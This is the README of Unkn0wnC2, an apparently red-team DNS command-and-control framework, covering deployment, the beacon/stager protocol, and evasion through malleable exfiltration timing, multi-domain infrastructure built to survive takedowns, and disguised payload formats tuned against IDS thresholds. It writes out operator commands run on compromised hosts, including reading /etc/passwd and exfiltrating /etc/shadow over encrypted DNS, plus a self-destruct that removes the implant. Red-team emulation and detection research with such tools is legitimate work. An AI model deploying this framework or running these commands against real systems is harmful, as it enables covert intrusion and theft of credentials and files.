






<p align="center">
  
</p>

<h1 align="center">Unkn0wnC2</h1>

<p align="center">
  <strong>DNS-based Command & Control Framework</strong><br>
  <em>Malleable timing &bull; Shadow Mesh architecture &bull; Encrypted communications</em>
</p>

<p align="center">
  
  
  
  
  
</p>

---

# 🎯 What Makes Unkn0wnC2 Different

Unkn0wnC2 addresses two critical gaps that plague traditional DNS C2 frameworks:

## ⏱️ **Malleable Exfiltration Timing**

> **The Problem:** DNS exfiltration often requires many packets for large outputs. Most C2s let you adjust beacon timing, but send exfiltrated data all at once—triggering alerts.

**Unkn0wnC2's Solution:**
- Controls **both** beacon timing and data exfiltration timing
- Command output is returned according to configurable intervals
- Spreads DNS traffic over extended periods to avoid detection spikes
- Operators can control payload format and length for additional evasion

## 🕸️ **Multi-Domain Support (Shadow Mesh)**

> **The Problem:** Most C2 frameworks restrict beacons to a single domain or IP address.

**Unkn0wnC2's Solution:**
- Supports single **or** multi-domain beacons
- Hot-swappable domains: add new DNS servers to active beacons without restart
- Simple domain management: check/uncheck configured domains in real-time
- Resilient infrastructure that adapts to takedowns and blocking

## **Bonus Feature: Malleable Payloads**
- Supports payload formats to avoid entropy based detections. (ex. cdn-ani34dn343.asset-ndfhb328sdns93n.domain.com)
- Utilize A records or TXT records for Communications
- Staged registration to minimize payload size
- Max sized payload options to get under 60 byte Payloads
- Disable encryption to get even smaller Payloads


---

## 🎯 **The Goal of Unkn0wnC2**

**Unkn0wnC2** is a DNS-based Command & Control framework designed to help organizations **strengthen their defensive posture** by demonstrating how advanced adversaries abuse DNS for C2 and data exfiltration.

### 🔴 **For Red Teams**
- Enables strict **TTP emulation** of DNS-based C2 techniques
- Flexible evasion capabilities to test detection blind spots
- Proof-of-concept for realistic APT communication patterns

### 🔵 **For Blue Teams**
- Understand ingress/egress patterns of sophisticated DNS C2
- Test detection capabilities against malleable timing attacks
- Prepare defenses for multi-domain C2 infrastructures

> **Note:** Unkn0wnC2 is not a post-exploitation framework *(not yet, at least)*—it focuses specifically on covert DNS communications that mirror techniques used by Advanced Persistent Threats.

---

### 🏴‍☠️ **Why This Matters**

APTs are more than capable of building custom tooling with extensive post-exploitation capabilities. Unkn0wnC2 serves as a **proof-of-concept** for the sophisticated DNS communication patterns your organization may encounter when targeted by threat actors leveraging DNS for covert operations.

---

> [!NOTE]
> This framework has been **heavily vibe coded** with AI assistance. While I am not a developer, AI coding agents greatly increase what a Red Teamer can build. Components will be refactored as I learn and improve, or by contributors willing to help.
> 
> Communications have been validated through packet captures.

> [!CAUTION]
> **FOR AUTHORIZED SECURITY TESTING ONLY**
> 
> This software is provided for educational and authorized security testing purposes only. Users must:
> - Obtain explicit written authorization before deployment
> - Comply with all applicable local, state, and federal laws
> - Use only in controlled environments with proper authorization
> - Understand that unauthorized access to computer systems is illegal
> 
> The author is not responsible for misuse or illegal activity. Use at your own risk.

## Quick Deployment

### Prerequisites
- Linux server with public IP
- Domain(s) with NS records pointing to your server
- Go 1.21+, Rust 1.70+, GCC (build script checks all dependencies)

**Archon Server:** 2 CPU / 2 GB RAM minimum. 4 GB recommended if exfiltrating large files with aggressive timings.
**DNS Servers:** 1 CPU / 512 MB RAM is sufficient.

### Step 1: Configure DNS

Set up **glue records** for each domain. Point NS1 and NS2 to your DNS server IP:

```
ns1.yourdomain.com  ->  YOUR_SERVER_IP
ns2.yourdomain.com  ->  YOUR_SERVER_IP
```
You may also utilize a subdomain for your DNS servers. Ensure your records are setup appropriately for the DNS servers to be authoritative for the desired subdomain.

```
ns1.sub.yourdomain.com -> YOUR_SERVER_IP
```


### Step 2: Install Archon

The Archon server should be hosted privately either through a VPC or Tailscale.

```bash
git clone https://github.com/abb3rrant/Unkn0wnC2
cd Unkn0wnC2
sudo ./build.sh
```

<details>
<summary>What the build script does</summary>

- Compiles and installs Archon to `/usr/bin/unkn0wnc2`
- Installs update script to `/usr/bin/unkn0wnc2-update`
- Auto-generates secure credentials (displayed once -- **save them!**)
- Creates TLS certificates
- Sets up WebUI and builder dependencies in `/opt/unkn0wnc2/`
- Creates systemd service file

</details>

### Step 3: Start Archon

```bash
# Using systemd (recommended)
sudo systemctl enable --now unkn0wnc2

# Or manually
sudo unkn0wnc2 --bind-addr 0.0.0.0 --bind-port 8443

# Debug mode with verbose logging available
sudo unkn0wnc2 --bind-addr 0.0.0.0 --bind-port 8443 --debug
```

### Step 4: Access WebUI

Navigate to `https://<server-ip>:8443/` and log in with the credentials from the build output.

<p align="center">
  
</p>

### Step 5: Configure & Build

1. **Change admin password** and create operators
2. **Build DNS servers** with your domain(s)
3. **Build beacons/stagers** for your targets

<p align="center">
  
</p>

### Step 6: Deploy DNS Servers

> [!Warning]
> It's recommended to disable DNS-Forwarding during the DNS Server build as it could be abused by bots/TAs for DNS amplification attacks. There are mitigations to prevent abuse, but they are not fully tested.

DNS servers bind to 0.0.0.0, and should use a redirector or be public facing. DNS servers also need to be able to reach Archon on its configured IP & Port, so ensure they have access. Tailscale is a great option for this.

```bash
# Stop systemd-resolved if using port 53
sudo systemctl stop systemd-resolved

# Run DNS server
sudo ./dns-server
```

<details>
<summary>Create systemd service for DNS Server</summary>

```bash
sudo tee /etc/systemd/system/dns-server.service << 'EOF'
[Unit]
Description=Unkn0wnC2 DNS Server
After=network.target

[Service]
Type=simple
ExecStart=/path/to/dns-server
Restart=on-failure
RestartSec=5

[Install]
WantedBy=multi-user.target
EOF

sudo systemctl daemon-reload
sudo systemctl enable --now dns-server
```
</details>

### Step 7. Catch a Beacon!

<p align="center">
  
</p>

##### Shell Commands

Any string that doesn't match a built-in command is executed in the target's default shell (`/bin/bash`, `/bin/sh`, or `cmd.exe` on Windows). Output is returned via the chunked result protocol (RESULT_META -> DATA -> RESULT_COMPLETE).

```
whoami
cat /etc/passwd
dir C:\Users
```

###### Built-in Commands

<details>
<summary><strong>exfil</strong> -- Exfiltrate a file via DNS</summary>

Reads a file from disk and transfers it using the label-encoded exfil protocol. The file appears in Archon's **Exfils** tab. The beacon's status changes to `exfiltrating` for the duration and reverts to `active` on completion.

```
exfil /path/to/file [flags]
```

| Flag | Default | Description |
|------|---------|-------------|
| `--encrypted` | off | Encrypt frames with the beacon's AES key |
| `--txt` | **default** | Use TXT record queries |
| `--a` | -- | Use A record queries |
| `--resolver <addr>` | beacon config | Custom DNS resolver (e.g. `1.2.3.4:53`) |
| `--burst-pkt <n>` | 10 | Chunks per burst before pausing |
| `--burst-ms <ms>` | 5000 | Pause duration between bursts |
| `--min-jitter <ms>` | 100 | Minimum inter-chunk jitter |
| `--max-jitter <ms>` | 500 | Maximum inter-chunk jitter |
| `--max-payload <n>` | auto | Max raw bytes per DNS frame |

**Examples:**
```
exfil /etc/shadow --encrypted
exfil "/home/user/secret doc.pdf" --encrypted --burst-pkt 5 --burst-ms 10000
exfil C:\Users\admin\data.xlsx --a --resolver 10.0.0.1:53
```

**Protocol flow:** INIT -> METADATA -> DATA chunks -> COMPLETE. Each frame gets an ACK from the DNS server before proceeding. Failed frames are retried automatically.

</details>

<details>
<summary><strong>selfdestruct</strong> -- Remove beacon from target</summary>

Stops the beacon loop, deletes the binary from disk, and exits.

```
selfdestruct
```

Aliases: `uninstall`

</details>

<details>
<summary><strong>update_domains</strong> -- Update Shadow Mesh domains (system command)</summary>

Sent automatically by Archon when an operator toggles domains in the beacon dashboard. Not typically issued manually. Updates the beacon's domain list without restart.

```
update_domains:["ns1.new-domain.com","ns2.other-domain.net"]
```

</details>

<details>
<summary><strong>setvar</strong> -- Set a client-side variable</summary>

Stores a named variable in the beacon's memory. Variables persist for the lifetime of the process and are expanded in all subsequent commands using `$KEY` or `${KEY}` syntax — just like bash. Variable references in the value are also expanded, so you can compose variables from existing ones.

```
setvar KEY=VALUE
```

**Examples:**
```
setvar LHOST=10.0.0.1
setvar LPORT=443
setvar CALLBACK=$LHOST:$LPORT
echo $CALLBACK              # expands to: echo 10.0.0.1:443
exfil /tmp/loot --resolver $LHOST:53
```

Shell environment variables (e.g. `$HOME`, `$PATH`) that don't match a stored variable pass through to the shell unchanged.

</details>

<details>
<summary><strong>listvars</strong> -- List all stored variables</summary>

Returns all variables currently stored on the beacon, sorted alphabetically.

```
listvars
```

Output format:
```
$CALLBACK=10.0.0.1:443
$LHOST=10.0.0.1
$LPORT=443
```

</details>

<details>
<summary><strong>unsetvar</strong> -- Remove a stored variable</summary>

Removes a variable from the beacon's memory. Future commands referencing `$KEY` will pass through to the shell instead.

```
unsetvar KEY
```

</details>

### Updating

To update an existing installation:

```bash
cd Unkn0wnC2
git pull
sudo ./update.sh
```

---

## Architecture

### Shadow Mesh Overview

Shadow Mesh allows beacons to use **multiple domains simultaneously**. Benefits:
- **Dynamic domains** -- Add/remove without beacon restart
- **Load distribution** -- Spread traffic across domains
- **Resilience** -- If one domain is burned, others continue working


```mermaid
flowchart TB
    subgraph Victim["Victim Environment"]
        direction TB
        A[Beacon] -->|DNS TXT| B[Local DNS]
    end
    
    B -->|DNS| C{Root DNS}
    C -->|DNS| D{TLD}
    D --> E & F & G

    subgraph Adversary["Adversary Infrastructure"]
        direction TB
        E[ns1.evilcorp.com] -->|HTTPS| H
        F[ns1.badguys.net] -->|HTTPS| H
        G[ns1.adversary.org] -->|HTTPS| H
        H[Archon Server]
        I[Operator] ==>|HTTPS| H
    end

classDef victim stroke:#0f0,stroke-width:2px
classDef adversary stroke:#f00,stroke-width:2px
class Victim victim
class Adversary adversary
```

### Component Roles

| Component | Language | Role |
|-----------|----------|------|
| **Archon** | Go | Central management server. Hosts the WebUI, builder, task queue, and database. Receives reports from all DNS servers. Operators interact exclusively with Archon. |
| **DNS Server** | Go | Authoritative DNS server deployed on public infrastructure. Decodes beacon queries, relays messages to Archon, caches stager binaries, and delivers tasks via TXT responses. Multiple DNS servers form the Shadow Mesh. |
| **Client (Beacon)** | Go | Implant running on target. Checks in via DNS TXT queries, executes tasks, and exfiltrates results over DNS. Supports multiple domains with automatic rotation. |
| **Stager** | C | Minimal first-stage loader. Retrieves the full beacon binary over DNS in chunks and executes it. |
### DNS Resolution Flow

Unkn0wnC2 acts as an **authoritative DNS server** for your domain(s):


```mermaid
flowchart TD
    A{Query for your domain?} -->|No| B[Forward to upstream DNS]
    A -->|Yes| C{Long subdomain?}
    C -->|No| D[Return random IP]
    C -->|Yes| E{Base36 encoded?}
    E -->|No| D
    E -->|Yes| F{Encrypted?}
    F -->|No| G[Process as Stager]
    F -->|Yes| H[Decrypt & Process Beacon]
    B & D & G & H --> I[Respond]
```

---

## Encryption & Encoding

All beacon communications use **AES-256-GCM encryption** with **Base36 encoding** (a-z, 0-9) to ensure DNS-safe characters. Encryption can be disabled at build time for debugging or environments where plaintext DNS is acceptable.

<table>
<tr>
<td>

**Outbound (Beacon -> Server)**
```
Plaintext -> AES-GCM -> Base36 -> DNS Labels
   |            |          |          |
"CHK|abc"  [encrypted]  "3g7k2m"  "3g7k.domain.com"
```

</td>
<td>

**Inbound (Server -> Beacon)**
```
DNS TXT -> Base36 Decode -> AES-GCM -> Plaintext
   |            |            |          |
"3g7k..."   [encoded]   [encrypted]   "ACK"
```

</td>
</tr>
</table>

<details>
<summary>Detailed Communication Flow (click to expand)</summary>


```mermaid
sequenceDiagram
    participant Beacon
    participant DNS_Resolver
    participant DNS_Server
    participant Archon

    Note over Beacon: Generate check-in message
    Beacon->>Beacon: CHK|beaconID|hostname|user|os|arch|buildID
    Beacon->>Beacon: Encrypt with AES-GCM
    Beacon->>Beacon: Encode with Base36
    Beacon->>Beacon: Append timestamp for cache busting
    Beacon->>Beacon: Split into DNS labels (62-char max or payload format)

    Note over Beacon: Select domain (Shadow Mesh)
    Beacon->>Beacon: selectDomain() - rotate through domains

    Beacon->>DNS_Resolver: TXT query: <labels>.<timestamp>.domain
    DNS_Resolver->>DNS_Server: Forward TXT query

    Note over DNS_Server: Process beacon query
    DNS_Server->>DNS_Server: Extract subdomain
    DNS_Server->>DNS_Server: Strip timestamp + decorators
    DNS_Server->>DNS_Server: Base36 decode
    DNS_Server->>DNS_Server: AES-GCM decrypt
    DNS_Server->>DNS_Server: Parse message

    alt First Check-In (CHK)
        DNS_Server->>DNS_Server: Register beacon locally
        DNS_Server->>Archon: POST /api/dns-server/beacon
        Archon->>Archon: Resolve build ID -> full config
        Archon->>Archon: Store beacon in database
        Archon-->>DNS_Server: 200 OK
        DNS_Server-->>DNS_Resolver: TXT: ACK (encrypted)
    else Subsequent Check-In (POLL)
        DNS_Server->>DNS_Server: Update beacon LastSeen
        alt Task in queue
            DNS_Server-->>DNS_Resolver: TXT: TASK|taskID|command
            DNS_Server->>Archon: POST /tasks/delivered
        else No tasks
            DNS_Server-->>DNS_Resolver: TXT: ACK
        end
    end

    DNS_Resolver-->>Beacon: TXT response
    Beacon->>Beacon: Base36 decode -> AES-GCM decrypt
    Beacon->>Beacon: Process response (ACK/TASK/DOMAINS)
```

</details>

---

## Protocol Reference

### Build ID System

At build time, Archon generates a **6-character base36 build ID** (e.g., `k7m2x9`) and embeds it in the beacon binary. The beacon sends this ID in the `BeaconName` field during CHK registration -- zero wire protocol changes. Archon resolves the full build configuration (sleep intervals, jitter, payload format, encryption, etc.) from its database, so the beacon never needs to transmit its config over DNS.

### Beacon -> DNS Server Messages

All messages are pipe-delimited. A numeric timestamp is appended automatically by the client as the last field for DNS cache busting.

| Message | Format | Description |
|---------|--------|-------------|
| **CHK** | `CHK\|beaconID\|hostname\|user\|os\|arch[\|buildID]` | Full check-in (first contact). Registers the beacon with its host info. The optional `buildID` field (6-char base36) lets Archon look up the full build config. |
| **POLL** | `POLL\|beaconID` | Lightweight check-in (all subsequent contacts). Only sends the beacon ID to poll for tasks. |
| **STATUS** | `STATUS\|beaconID\|status` | Status update. Sent when the beacon enters a new state (e.g., `exfiltrating`, `active`). |
| **RESULT_META** | `RESULT_META\|beaconID\|taskID\|totalSize\|totalChunks` | Announces an incoming chunked result. Sent before any DATA chunks. |
| **DATA** | `DATA\|beaconID\|taskID\|chunkIndex\|totalChunks\|chunkData` | A single result chunk (1-indexed). Chunk data may contain pipe characters. In Shadow Mesh, chunks from the same task may arrive at different DNS servers -- Archon reassembles regardless of source. |
| **RESULT_COMPLETE** | `RESULT_COMPLETE\|beaconID\|taskID\|totalChunks` | Signals all chunks have been sent. Archon marks the task complete only after receiving this. |

### DNS Server -> Beacon Responses

Responses are returned in DNS TXT records, encrypted and base36-encoded (matching the beacon's build config).

| Response | Format | Description |
|----------|--------|-------------|
| **ACK** | `ACK` | No pending tasks / message received successfully. |
| **TASK** | `TASK\|taskID\|command` | Deliver a task. The full response (including task ID and command) must fit in ~210 chars after encoding. |
| **REREG** | `REREG` | Returned in response to a POLL from an unknown beacon ID. Tells the beacon to send a full CHK to re-register. |
| **update_domains** | `update_domains:["a.com","b.net"]` | Delivered as a task. Replaces the beacon's active domain list for Shadow Mesh rotation. |

### Stager Protocol

The stager is a minimal C loader that retrieves the full beacon binary over DNS in chunks.

| Direction | Message | Format | Description |
|-----------|---------|--------|-------------|
| Stager -> Server | **STG** | `STG\|clientIP\|os\|arch` | Initialize a stager session. Server returns binary metadata. |
| Server -> Stager | **META** | `META\|sessionID\|totalChunks` | Session info with total chunk count for the binary. |
| Stager -> Server | **CHUNK** | `CHUNK\|chunkIndex\|clientIP\|sessionID` | Request a specific binary chunk (0-indexed). |
| Server -> Stager | **CHUNK** | `CHUNK\|base64data` | The requested chunk data, base64-encoded. |

DNS servers cache the full beacon binary locally after first sync with Archon, so stager delivery works even if the Archon connection is temporarily lost.

### Exfil Protocol (Label-Encoded)

The beacon's built-in `exfil` command uses a label-encoded protocol with an `EX` prefix. Each DNS query carries a structured envelope and payload:

```
EX<envelope>.<payload_labels>.<domain>
```

| Frame | Description |
|-------|-------------|
| **INIT** | File metadata: filename, size, chunk count. Envelope contains session tag + flags. |
| **DATA** | File data chunk. Payload is the raw file bytes, encrypted if configured. |
| **COMPLETE** | Transfer complete signal. Payload is `0`. |

**Envelope structure** (9 bytes, encrypted with AES-GCM if enabled):
- Version (1 byte) -- Protocol version
- Flags (1 byte) -- Frame type, encryption, record type
- Session Tag (3 bytes) -- Random per-transfer identifier
- Counter (4 bytes) -- Frame sequence number

Each frame receives an ACK from the DNS server before the next is sent. Failed frames are retried automatically.

### Result Delivery (3-Phase Protocol)

When a beacon executes a command, the output is returned using a 3-phase chunked protocol:

```
1. RESULT_META   -- "I have N chunks of X bytes for task T"
2. DATA (x N)    -- One chunk per DNS query, with jitter between each
3. RESULT_COMPLETE -- "All chunks sent for task T"
```

In Shadow Mesh mode, chunks from the same task may arrive at **different DNS servers**. Each DNS server forwards chunks to Archon independently. Archon reassembles the full result regardless of which server delivered each chunk. The task is only marked complete when Archon receives the RESULT_COMPLETE signal.

---

## Malleable Payload Format

The **Payload Format** option in the builder lets you disguise beacon DNS queries by defining a template for the subdomain structure. Instead of raw base36 labels, the encoded data is woven into a pattern of your choosing.

### How It Works

The format string uses `X` characters as data slots and any other characters as literal decorators. Dots (`.`) become DNS label separators.

| Format Template | Example Query |
|----------------|---------------|
| *(empty -- default)* | `k7m2x9a4b1c3.e8f2g5h7j6.domain.com` |
| `XXXX-XXXX.XXXX-XXXX` | `k7m2-x9a4.b1c3-e8f2.domain.com` |
| `api-v2-XXXXXXXX.cdn-XXXXXXXX` | `api-v2-k7m2x9a4.cdn-b1c3e8f2.domain.com` |
| `XXXXXXXXXXXX.assets.static` | `k7m2x9a4b1c3.assets.static.domain.com` |

### Capacity and Constraints

- Each `X` in the format carries one base36 character of encoded data
- Each DNS label (segment between dots) must be <= 63 characters (RFC 1035)
- Total FQDN must be <= 253 characters (RFC 1035)
- Payload format applies to **POLL and DATA queries only** -- CHK (registration) always uses default label encoding to avoid a chicken-and-egg problem (the server needs to decode CHK to learn the beacon's format)

### Max Payload Size Calculation

The maximum raw bytes per DNS query depends on encryption, subdomain budget, and payload format:

```
encoded_size = (overhead + raw_bytes) * 1.6   (base36 expansion factor)
encoded_size must fit within available subdomain space
```

| Setting | Overhead | Notes |
|---------|----------|-------|
| Encrypted (AES-GCM) | 63 bytes | 28 bytes AES-GCM (nonce + tag) + 35 bytes framing |
| Unencrypted (base36 only) | 35 bytes | Framing + timestamp only |

**Available subdomain space** is determined by (in priority order):

1. **Payload Format** -- If set, the number of `X` slots is the budget
2. **Max Subdomain Length** -- If set (> 0), this value is the budget
3. **Default** -- `253 - len(domain)` characters (full FQDN limit minus the domain)

**Formula:**
```
max_raw_bytes = (subdomain_budget * 5/8) - overhead
```

**Examples** (with encryption enabled, overhead = 63):

| Domain Length | Subdomain Budget | Max Raw Bytes/Query | Notes |
|---------------|-----------------|---------------------|-------|
| 20 chars | 233 (default) | ~83 bytes | Default, no format |
| 20 chars | 120 (explicit) | ~12 bytes | Restricted subdomain length |
| -- | 160 X-slots (format) | ~37 bytes | Custom payload format |
| -- | 80 X-slots (format) | -- | Too small for data; format applies to CHK only, DATA falls back to default |

The builder UI shows warnings when a payload format is too small to carry task output (below 104 X-slots encrypted, 58 unencrypted). In that case, check-ins use the format for traffic shaping but task results automatically fall back to default base36 labels.

---

## Malleable Timing

All timing parameters are configurable via the Builder UI to balance **stealth vs. throughput**.

<table>
<tr>
<th>Component</th>
<th>Parameter</th>
<th>Default</th>
<th>Purpose</th>
</tr>
<tr>
<td rowspan="4"><strong>Stager</strong></td>
<td>jitter_min/max_ms</td>
<td>60000-120000</td>
<td>Delay between bursts</td>
</tr>
<tr>
<td>chunks_per_burst</td>
<td>5</td>
<td>Chunks before pause</td>
</tr>
<tr>
<td>burst_pause_ms</td>
<td>120000</td>
<td>Pause between bursts</td>
</tr>
<tr>
<td>max_retries</td>
<td>5</td>
<td>Retry attempts</td>
</tr>
<tr>
<td rowspan="4"><strong>Beacon</strong></td>
<td>sleep_min/max</td>
<td>60-120s</td>
<td>Check-in interval (randomized within range)</td>
</tr>
<tr>
<td>exfil_jitter_min/max_ms</td>
<td>1000-2000</td>
<td>Delay between exfil chunks</td>
</tr>
<tr>
<td>exfil_chunks_per_burst</td>
<td>10</td>
<td>Result chunks before pausing</td>
</tr>
<tr>
<td>exfil_burst_pause_ms</td>
<td>5000</td>
<td>Pause between result bursts</td>
</tr>
</table>

<details>
<summary>Transfer Time Calculations</summary>

**Formula:** `time = chunks * RTT + bursts * (avg_jitter + burst_pause)`

| Scenario | Chunks | Bursts | Est. Time |
|----------|--------|--------|-----------|
| Stager (defaults) | 100 | 20 | ~6 min |
| Exfil (defaults) | 100 | 20 | ~48 min |

Slower = stealthier. Faster = noisier.

</details>

---

## Detection Context

> [!IMPORTANT]
> Most IDS rules use `track by_src`, which aggregates ALL queries from a source IP regardless of domain. **Shadow Mesh does NOT evade these rules -- only timing does.**

| Rule Type | Threshold | Queries to Evade |
|-----------|-----------|------------------|
| High volume DNS | 30/60s | < 0.5/min |
| Large query detection | 10/60s | < 0.16/min |
| TXT record abuse | 30/60s | < 0.5/min |

```
# Example Suricata threshold
threshold:type both, track by_src, count 10, seconds 60;
```

---

[](https://www.buymeacoffee.com/abb3rrant)


<p align="center">
  <strong>Unkn0wnC2</strong> &bull; Version 0.8.0<br>
  <em>Licensed under GPL-3.0 &bull; For authorized security testing only</em><br><br>
  <a href="#quick-deployment">Quick Start</a> &bull;
  <a href="#architecture">Architecture</a> &bull;
  <a href="#protocol-reference">Protocol</a> &bull;
  <a href="#malleable-payload-format">Payload Format</a> &bull;
  <a href="#malleable-timing">Timing</a>
</p>
